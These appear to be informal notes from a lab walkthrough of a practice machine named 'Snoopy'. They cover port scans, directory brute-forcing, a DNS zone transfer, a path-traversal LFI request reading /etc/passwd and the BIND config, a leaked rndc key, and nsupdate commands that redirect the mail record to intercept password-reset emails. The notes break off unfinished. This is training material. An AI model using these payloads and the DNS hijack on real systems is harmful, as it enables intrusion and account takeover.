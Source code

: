 sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.150.83 -oG allPorts

nmap 10.10.11.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 02:29 EDT
Nmap scan report for 10.10.11.212
Host is up (0.80s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
                                                    
Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

Error: Unable to load the "PHP Email Form" Library!

so php 




```
gobuster dir --url http://snoopy.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

/index.html           (Status: 200) [Size: 23418]
/about.html           (Status: 200) [Size: 16614]
/contact.html         (Status: 200) [Size: 10248]
/download             (Status: 200) [Size: 11363570]
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]
/team.html            (Status: 200) [Size: 11115]

/download             (Status: 200) [Size: 11363570]
Progress: 232 / 441122 (0.05%)[ERROR] 2023/07/14 04:58:09 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]




nmap -p22,53,80 -sCV 10.129.150.83 -oN targeted

We enumerate the DNS by performing a zone transfer to discover possible subdomains.

so DNS enumeration is required

https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/

dig command syntaxt snoopy.htb @<snoopy actual ip>
dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 276 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Fri Jul 14 07:21:55 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)


but when we try t capture the request of downloading the package we find

GGET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

also there is an lfi vulnerability

GET /download?file=....//....//....//....//etc/passwd HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


we know lfi wxists tso the way to get ot the configuration key is by looking into /etc/bind/named.conf

```
// This is the primary configuration file for the BIND DNS server named.
//
// Please read /usr/share/doc/bind9/README.Debian.gz for information on the 
// structure of BIND configuration files in Debian, *BEFORE* you customize 
// this configuration file.
//
// If you are just adding zones, please do that in /etc/bind/named.conf.local

include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

key "rndc-key" {
    algorithm hmac-sha256;
    secret "BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=";
};

exploit mail dns

 nsupdate                  
> server 10.10.11.212 53
> key hmac-sha256:rndc-key BEqUtce80uhu3TOEGJJaMlSx9WT2pkdeCtzBeDykQQA=
> zone snoopy.htb
> update add mail.snoopy.htb 86400 A 10.10.16.47
> send

starting python smtpd server

python3 -m smtpd -c DebuggingServer -n 10.10.16.47:25

we added mm.snoopy.htb

a matter most page opens

![](20230715060719.png)

then we go and reset our password

we reset password for at password reset page

cschultz@snoopy.htb

but not able to

![](20230715060913.png)

nothing came maybe because we did not transfer the zone properly before









```

